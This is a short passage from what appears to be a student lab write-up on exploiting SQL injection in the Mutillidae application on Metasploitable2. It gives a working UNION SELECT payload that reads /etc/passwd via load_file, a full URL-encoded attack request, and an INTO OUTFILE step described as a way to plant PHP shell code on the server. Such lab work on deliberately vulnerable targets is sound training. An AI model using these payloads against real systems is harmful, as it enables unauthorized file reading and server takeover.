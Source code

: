 Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

# ![Screenshot 2024-04-20 213648](https://github.com/DEEPAK22003907/sqlinjection/assets/119404520/6f0164d2-4a15-43f5-b624-fe46556b6fb7)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
